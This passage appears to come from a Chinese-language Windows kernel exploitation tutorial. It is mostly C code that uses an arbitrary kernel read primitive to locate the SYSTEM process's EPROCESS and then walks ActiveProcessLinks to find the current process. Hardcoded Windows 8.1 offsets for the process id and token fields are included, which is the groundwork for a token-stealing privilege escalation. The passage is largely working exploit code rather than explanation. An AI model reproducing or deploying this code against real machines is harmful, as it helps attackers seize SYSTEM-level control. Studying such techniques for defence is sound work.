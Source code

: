 ```c
	ULONG64 ntos = (ULONG64)LoadLibrary("ntoskrnl.exe");
	// get address of exported PsInitialSystemProcess variable
	ULONG64 addr = (ULONG64)GetProcAddress((HMODULE)ntos, "PsInitialSystemProcess");
	FreeLibrary((HMODULE)ntos);
	ULONG64 res = 0;
	ULONG64 ntOsBase = GetNTOsBase();
	// subtract addr from ntos to get PsInitialSystemProcess offset from base
	if (ntOsBase) {
		ReadFromAddress(addr - ntos + ntOsBase, (BYTE *)&res, sizeof(ULONG64));
	}
	return res;
}
```

获取到 `SYSTEM` 进程的 `EPROCESS` 地址后就可以读取其中的 `ActiveProcessLinks` 属性地址，
它是一个存放所有进程 `EPROCESS` 地址的双向链表，通过遍历它来得到当前进程的 `EPROCESS` 地址。

```c
//dt nt!_EPROCESS UniqueProcessID ActiveProcessLinks Token
typedef struct
{
	DWORD UniqueProcessIdOffset;
	DWORD TokenOffset;
} VersionSpecificConfig;

VersionSpecificConfig gConfig = { 0x2e0, 0x348 }; //win 8.1

LONG64 PsGetCurrentProcess()
{
	ULONG64 pEPROCESS = PsInitialSystemProcess();// get System EPROCESS
		// walk ActiveProcessLinks until we find our Pid
	LIST_ENTRY ActiveProcessLinks;
	ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset + sizeof(ULONG64), (BYTE *)&ActiveProcessLinks, sizeof(LIST_ENTRY));
	ULONG64 res = 0;
	while (TRUE) {
		ULONG64 UniqueProcessId = 0;
		// adjust EPROCESS pointer for next entry
		pEPROCESS = (ULONG64)(ActiveProcessLinks.Flink) - gConfig.UniqueProcessIdOffset - sizeof(ULONG64);
		// get pid
		ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset, (BYTE *)&UniqueProcessId, sizeof(ULONG64));
		// is this our pid?
		if (GetCurrentProcessId() == UniqueProcessId) {
			res = pEPROCESS;
			break;
		}
		// get next entry
		ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset + sizeof(ULONG64), (BYTE *)&ActiveProcessLinks, sizeof(LIST_ENTRY));
		// if next same as last, we reached the end
		if (pEPROCESS == (ULONG64)(ActiveProcessLinks.Flink) - gConfig.UniqueProcessIdOffset - sizeof(ULONG64))
			break;
	}
	return res;
}
```
